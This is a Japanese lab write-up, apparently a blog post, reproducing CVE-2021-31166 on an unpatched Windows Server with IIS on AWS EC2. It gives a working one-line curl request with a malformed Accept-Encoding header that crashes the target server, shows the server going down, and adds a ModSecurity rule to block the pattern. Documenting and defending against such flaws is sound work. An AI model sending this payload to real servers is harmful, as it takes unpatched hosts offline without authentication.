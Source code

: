 <div style="text-align:center;">[f:id:motikan2010:20210521180447p:plain]</div>

<div class="contents-box"><p>[:contents]</p></div>

## はじめに

　今回は特定の Windows 環境で動作する CVE-2021-31166 (HTTP Protocol Stack Remote Code Execution) を検証していきます。  
（PoCを動かすだけのク○記事を量産することに引け目を感じますが・・・(´・ω・)。）

CVE-2021-31166 の影響を受けるソフトウェアなどの詳細情報はこちらにあります。  
[https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-31166:embed:cite]

　脆弱性の詳細などはこちらにあります。
[https://www.mcafee.com/blogs/other-blogs/mcafee-labs/major-http-vulnerability-in-windows-could-lead-to-wormable-exploit/:embed:cite]

> unauthenticated denial-of-service (Blue Screen of Death) 

ということで、<span class="m-y">認証なしにターゲットとなるサーバをブルースクリーンにすることができてしまう脆弱性</span>です。


## 環境構築

　AWS EC2 上で「Windows Server, version 20H2 (Server Core Installation)」を動かし検証を進めていきます。

### EC2 の起動

　2021年5月のセキュリティパッチが適用されてない AMI である「<span class="m-y">Windows_Server-20H2-English-Core-Base-2021.04.14 (ami-02b7a976673d1d133)</span>」を選択して起動します。

[f:id:motikan2010:20210520000826p:plain:w600]

　（最初、誤ってセキュリティパッチ適用済みである「Microsoft Windows Server 20H2 Core Base (ami-0e2c9cfe1973e9a42)」を導入してしまい脆弱性の再現ができないといったことがありました。）

　インスタンスが起動したらパスワードを取得し、RDSで Windows Server に接続します。  
[https://aws.amazon.com/jp/premiumsupport/knowledge-center/retrieve-windows-admin-password/:embed:cite]

　パスワード取得はインスタンス起動後直後にはできなく、4分ほど待つ必要がありました。  
[f:id:motikan2010:20210520000751p:plain:w500]


### IIS(Internet Information Services) の導入

　まずは Windows PowerShell を起動し IIS が導入されているのかを確認します。
<div class="md-code" style="width:100%">
```
C:\Users\Administrator>powershell

PS C:\Users\Administrator>Get-WindowsFeature -Name Web-*
```
</div>

[f:id:motikan2010:20210520000755p:plain:w600]

　各項目で `[ ]` となっているので入っていなさそうです。


　以下のコマンドで IIS を導入します。  
<div class="md-code" style="width:100%">
```
PS C:\Users\Administrator>Install-WindowsFeature Web-Server -IncludeAllSubFeature
```
</div>

　IIS が導入されたかを再度確認します。  
[f:id:motikan2010:20210520000803p:plain:w600]

　念のため本脆弱性のパッチが適用されていないこと確認をします。以下のコマンドで確認できます。  
<div class="md-code" style="width:100%">
```
PS C:\Users\Administrator>wmic qfe list
```
</div>

[f:id:motikan2010:20210520000818p:plain:w600]

　2021年4月までのパッチしか適用されていないことが確認できました。  

### ブラウザでアクセス

　ブラウザで IIS にアクセスします。以下のような画面が表示されていたら導入は完了です。  
[f:id:motikan2010:20210520000811p:plain:w600]


## 脆弱性を試す

### PoC を動かす & サーバが落ちたことの確認

　本脆弱性の PoC は既に GitHub 上で公開されています。
[https://github.com/0vercl0k/CVE-2021-31166:embed:cite]

　上記リポジトリでは Python で実装されていますが、curl コマンドでも問題なので curl コマンドで検証行っていきます。  

PoC 通りに `Accept-Encoding`ヘッダーの値に「`doar-e, ftw, imo, ,`」を指定して送信します。  
<div class="md-code" style="width:100%">
```
$ curl 'http://target.example.com/' -H 'Accept-Encoding: doar-e, ftw, imo, ,'
curl: (52) Empty reply from server

```
</div>

　先ほどアクセスした IIS の画面を更新してみます。下の画像では分かりづらいですが、レスポンスが返ってこない状態となります。  
RDS の接続も切断されることも確認できます。  
[f:id:motikan2010:20210520000821p:plain:w600]

　curl でアクセスしてみても同様にレスポンスが返却されないことが確認できます。  
<div class="md-code" style="width:100%">
```
$ curl 'http://target.example.com/' -m 10
curl: (28) Operation timed out after 10002 milliseconds with 0 bytes received
```
</div>

　EC2 のモニタリング画面でもサーバが落ちたことを確認できます。  
[f:id:motikan2010:20210520001222p:plain:w500]

　そして、`Accept-Encoding`ヘッダー値は「`doar-e, ftw, imo, ,`」以外でも問題なく「`1,,`」という値でも再現します。

脆弱性の技術的な内容は PoC のリポジトリを参照ください。なんとなく分かるはずです。（私は1㍉もわかりませんでした）

<div class="md-code" style="width:100%">
```
$ curl 'http://target.example.com/' -H 'Accept-Encoding: 1,,'
curl: (52) Empty reply from server
```
</div>

### 【おまけ】 WAF (ModSecurity) でブロックしてみる

　PoC を動かすだけでは内容が寂しいので WAF (ModSecurity) のルールを書いてみました。  

<span style="color: #ff0000">`Accept-Encoding`ヘッダの仕様に詳しくない私が書いているので、あくまで参考程度に...。</span>

<div class="md-code" style="width:100%">
```
SecRule REQUEST_HEADERS:Accept-Encoding "@rx .*,\s*," \
    "id:2,\
    t:none,log,deny,\
    msg:'CVE-2021-31166'"
```
</div>

　以下のようにブロックできてる。（っぽい）
<div class="md-code" style="width:100%">
```
$ curl 'http://target.example.com' -H 'Accept-Encoding: doar-e, ftw, imo, ,'
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.15.12</center>
</body>
</html>

$ curl 'http://target.example.com/' -H 'Accept-Encoding: 1,,'
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.15.12</center>
</body>
</html>
```
</div>

## まとめ

Windows Server にさわる機会はすくないので助かる。  
PowerShell is ナニ。  
そしてインスタンスの停止忘れで死んだ。

## 更新履歴

- 2021年5月19日 新規作成
- 2021年5月21日 サムネイル修正